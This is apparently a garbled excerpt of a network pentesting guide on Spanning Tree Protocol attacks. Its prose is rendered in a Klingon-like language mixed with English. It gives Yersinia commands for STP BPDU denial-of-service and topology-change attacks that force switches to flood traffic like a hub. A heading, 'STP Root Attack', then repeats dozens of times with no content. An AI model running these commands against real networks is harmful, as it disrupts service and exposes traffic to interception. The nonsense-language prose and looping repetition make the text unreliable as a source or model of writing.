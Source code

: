 **vaj yIqIm STP**

**vaj yIqIm STP BPDU DoS**

**vaj yIqIm BPDUs TCP (Topology Change Notification) qoj Conf (BPDUs 'ej vaj yIqIm 'ej vaj yIqIm) switches overloaded 'ej vaj yIqIm correctly.**
```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```
#### **STP TCP Attack**

**STP TCP tIn**

QaStaHvIS TCP, switchmey Daq CAM table 15 tInDu'wI' vItlhutlh. vaj, vaj vItlhutlh continuously packets lo'laHbe'chugh, CAM table continuously vItlhutlh (qutlh 15 tInDu'wI'wI' vaj) 'ej vItlhutlh, switch behaves hub.
```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```
#### **STP Root Attack**

**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
**STP Root Attack**:
